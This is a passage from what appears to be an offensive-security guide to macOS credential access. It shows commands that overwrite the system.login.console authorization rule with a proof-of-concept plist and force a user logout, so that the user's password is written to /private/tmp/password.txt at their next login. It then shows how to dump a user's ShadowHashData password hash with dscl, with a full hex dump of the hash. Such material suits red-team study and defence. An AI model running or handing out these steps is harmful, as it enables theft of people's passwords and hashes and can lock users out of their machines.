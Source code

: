 ```
	<real>719346785.95490503</real>
	<key>shared</key>
	<true/>
	<key>tries</key>
	<integer>10000</integer>
	<key>version</key>
	<integer>11</integer>
</dict>
</plist>
```

update the authorization database.

```bash
security authorizationdb write system.login.console < poc.plist      
YES (0)
```

you can force logout the user via the following command.

```bash
sudo launchctl bootout user/$(id -u <username>)
```

when they log back in, the code will have executed and the password will be at `/private/tmp/password.txt`!

just some notes on this method, if you're experimenting: modifying the login process is quite risky, and potentially dangerous. if you're not sure what you're doing, you could prevent anybody from logging in (including yourself) via the login screen.

- # credential access via ShadowHashData

`ShadowHashData` is a mechanism in macOS used to store hashed password data for user accounts. it's stored as binary `.plist` files for each user account in `/var/db/dslocal/nodes/Default/users/`. 

you can extract it via `default` or `dscl` utilities.

```bash
$ sudo dscl . read /Users/$USERNAME ShadowHashData

dsAttrTypeNative:ShadowHashData:
 62706c69 73743030 d2010203 0a5f101e 5352502d 52464335 3035342d 34303936 2d534841 3531322d 50424b44 46325f10 1453414c 5445442d 53484135 31322d50 424b4446 32d30405 06070809 58766572 69666965 72547361 6c745a69 74657261 74696f6e 734f1102 004350d6 29ecef1f 122a15ae ee030fa6 fa552525 6994b148 c9bdb3e0 bb652c88 0b82b334 4886ac55 9f04e045 bb494aea e73a5914 b68eb607 fd812f54 1c6ce2f5 c773be52 77c471bc 89df7ebd 0a0298b9 aa407330 e92816bf 732c10b0 09922f04 628fe872 b1b37778 0bd8221c d3487bee 42cf6a15 67802d13 4db26656 d0f2c17f 7c3ed954 c9fe56b8 615553a7 931ec655 4f526f5c c4541874 795b9b77 ce69d038 3380f493 c49d84ce 6e3f5d1c 0bb3df13 8bb379fb 99473936 817ba675 0409b97d 7026ab75 3778473c a51926a2 b1745b72 28285997 524e7ef0 4821f41e f6e1979f 88c0a2c1 103773d4 cc69b5e5 0515be57 7c901e6b 3abae24f 7716b146 c3763881 d1c41f79 3dee9577 3f66f969 db2ab6bb 331bd518 438e1d56 1e314fa1 c78ea486 ff7f09db 5bb94565 5406ff15 597396cb 6b4832bf 2baab2e8 3f9ed76f e6c0e11a 130f5403 59c2b47c 33b78f4f 0b969805 47ff5030 149a94e7 37fcf4a4 1d6e1837 d31e26ff 6c4de92f 5c0bce93 d9498299 a0d15668 2557da09 748c24a0 c20bc995 8b119c85 92f8c319 f17ac5c8 6631b9d8 11803fb6 ca2af51b 3ab52af7 354f61e1 87dcc684 57259217 32343cdd 200ec9bd fdb38f6a 3ffb135c 3d095b3d e40ac620 a3975056 ca8ee84a 175198b0 8c471e54 d2637140 eaaf40a8 673c8f70 b5fc4033 77a46b8b 0c65a69f 3817b8de fa028a7c 146705d6 1000652c dd4a6dce bf0d7aaf 2a4f1020 ba98c293 c1461cf9 c4df9952 569b14b9 1ff176e0 eddaee7c a4583f2d 097287c1 1200022e 09d30b05 060c0d09 57656e74 726f7079 4f1080e9 a36c9b06 438acd06 8982b946 ffa90aac e01574e3 cf98628c 4348784e 1630f0de 9e018c55 77d5d376 cc335136 57d3a593 e1fa565c 53b4a3fd 7dc1599e 2e60b3e1 f815a1d2 612f86cf 6e26d143 a0f202cc 5c0182a9 ea973682 cfd7859e 82ebc85b abdc8be1 845d26ce bb4a3594 f1654b86 e8476c4e 7d566916 0ae8c052 3491a94f 10205a83 6c31ba4a a34077d9 67368267 d314ddfa 2808e96e 6b58119a 26df3f67 c8c40008 000d002e 0045004c 0055005a 00650269 028c0291 029802a0 03230000 00000000 02010000 00000000 000e0000 00000000 00000000 00000000 0346
```
